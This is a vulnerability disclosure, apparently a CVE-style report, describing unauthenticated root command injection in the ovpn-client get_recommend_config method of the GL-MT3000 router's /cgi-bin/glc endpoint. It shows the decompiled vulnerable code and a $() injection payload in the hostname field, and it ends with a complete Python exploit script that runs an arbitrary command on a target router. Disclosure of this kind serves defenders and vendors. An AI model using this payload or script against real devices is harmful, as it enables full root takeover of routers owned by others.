


Submission Date: 2026.5.13
Vendor: GL-MT3000
Version: 4.4.5
Firmware: openwrt-mt3000-4.4.5-0811-1691754744.tar
Download Link: https://dl.gl-inet.cn/router/mt3000/stable


An unauthenticated command injection vulnerability exists in the `/cgi-bin/glc` endpoint via the `ovpn-client.get_recommend_config` method of the affected product. The `ovpn-client.so` native plugin at `/usr/lib/oui-httpd/rpc/ovpn-client.so` accepts a `servers` array. For each server entry, the `hostname` field is extracted, suffixed with `.tcp` or `.udp`, and passed to `download_recommend_config()`. This function constructs a shell command by embedding the attacker-supplied hostname into a `sprintf()` template and executes it via `fork_exec(cmd)` which calls `execlp("/bin/sh", "sh", "-c", cmd, NULL)`. The hostname appears in all four `%s` positions (touch target, URL, download path, remove target), so `$()` command substitution fires in every position. No shell quoting or metacharacter filtering is applied to the hostname, and the `/cgi-bin/glc` binary calls the plugin via `dlopen()/dlsym()` without any authentication check, resulting in unauthenticated root command execution.

The reported vulnerable flow is:

```text
Unauthenticated attacker
  -> POST /cgi-bin/glc
     {"object":"ovpn-client", "method":"get_recommend_config",
      "args":{"group_id":1, "proto":0,
              "servers":[{"country_name":"US", "city_name":"Test",
                          "hostname":["$(id>/tmp/poc)"]}]}}

  -> /www/cgi-bin/glc
       dlopen("ovpn-client.so") → dlsym("get_recommend_config") → handler(args)

  -> ovpn-client.so::get_recommend_config
       // Gate 1: group_id must exist (default is 1)
       // Gate 2: ovpnclient must be disabled/stopped (default state passes)
       // Gate 3: flash space check
       
       for each server in servers:
           for each hostname in server.hostname:
               sprintf(hostname_tcp, "%s.tcp", hostname)        // Source
               download_recommend_config(hostname_tcp)
               sprintf(hostname_udp, "%s.udp", hostname)
               download_recommend_config(hostname_udp)          // called twice (TCP+UDP)

  -> ovpn-client.so::download_recommend_config(hostname)
       sprintf(uuid_path, "/tmp/ovpn_download/%s.ovpn", hostname)
       sprintf(dl_path,  "/tmp/curl_uuid/%s.ovpn", hostname)
       
       // strstr selects URL template based on ".tcp" or ".udp" suffix
       if strstr(hostname, "tcp"):
           sprintf(cmd, "touch %s; curl ... ovpn_tcp/servers/%s.ovpn > %s; rm -f %s",
               dl_path, hostname, uuid_path, dl_path);          // SINK
       else if strstr(hostname, "udp"):
           sprintf(cmd, "touch %s; curl ... ovpn_udp/servers/%s.ovpn > %s; rm -f %s",
               dl_path, hostname, uuid_path, dl_path);          // SINK

       // Rate limit: wait until ≤19 concurrent curl downloads
       while atoi(ls /tmp/curl_uuid |wc -w) > 19: sleep(1)
       fork_exec(cmd);   // /bin/sh -c

  -> /bin/sh -c:
       $(id>/tmp/poc) expanded BEFORE any command runs
       → id > /tmp/poc    ← 💣 RCE (fires in all 3 $() positions)
```

Binary call graph analysis confirms that `download_recommend_config` (at 0xF4E8) calls `sprintf` and `fork_exec` but does NOT call `slashFilename` (at 0x31BC) — the hostname parameter is never sanitized before reaching the shell.



```c
// ovpn-client.so::download_recommend_config
sprintf(uuid_path, "/tmp/ovpn_download/%s.ovpn", hostname);
sprintf(dl_path,  "/tmp/curl_uuid/%s.ovpn", hostname);

// strstr(hostname, "tcp"/"udp") selects URL; both variants injectable:
if (strstr(hostname, "tcp")) {
    sprintf(cmd, "touch %s; curl -LsS --connect-timeout 35 -m 20 "
            "https://downloads.nordcdn.com/configs/files/ovpn_tcp/servers/%s.ovpn > %s; rm -f %s",
            dl_path, hostname, uuid_path, dl_path);
} else if (strstr(hostname, "udp")) {
    sprintf(cmd, "touch %s; curl -LsS --connect-timeout 35 -m 20 "
            "https://downloads.nordcdn.com/configs/files/ovpn_udp/servers/%s.ovpn > %s; rm -f %s",
            dl_path, hostname, uuid_path, dl_path);
}
// Rate limit: wait until ≤19 pending downloads, then:
fork_exec(cmd);   // /bin/sh -c
```

The `$()` injection mechanism — shell expands all substitutions before execution:

```text
Normal:  hostname = "us1234.nordvpn.com"
         → touch /tmp/curl_uuid/us1234.nordvpn.com.tcp.ovpn
         → curl .../servers/us1234.nordvpn.com.tcp.ovpn > ...
         ✅ legitimate download

Exploit: hostname = "$(id>/tmp/poc)"
         → touch /tmp/curl_uuid/$(id>/tmp/poc).tcp.ovpn   ← touch fails
         → curl .../servers/$(id>/tmp/poc).tcp.ovpn > ...  ← curl fails
         → $() executes FIRST — id > /tmp/poc               ← 💣 RCE
```

Confirmed proof on target device:

```text
curl -sk ... → 0 {}
cat /tmp/p17_reco → uid=0(root) gid=0(root)
```



Exploit the vulnerability by sending a crafted HTTP request:

```python
#!/usr/bin/env python3
import json, ssl, sys, urllib.request

TARGET = sys.argv[1] if len(sys.argv) > 1 else "https://192.168.8.1"
CMD    = sys.argv[2] if len(sys.argv) > 2 else "id"

ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

req = urllib.request.Request(
    f"{TARGET}/cgi-bin/glc",
    data=json.dumps({"object":"ovpn-client","method":"get_recommend_config","args":{
        "group_id":1,"proto":0,
        "servers":[{"country_name":"US","city_name":"Test",
                    "hostname":[f"$({CMD} >/tmp/p17_reco 2>&1)"]}]}}).encode(),
    headers={"Content-Type":"application/json"}, method="POST")
print(urllib.request.urlopen(req, timeout=10, context=ctx).read().decode()[:200])
print("[+] check /tmp/p17_reco on target")
```
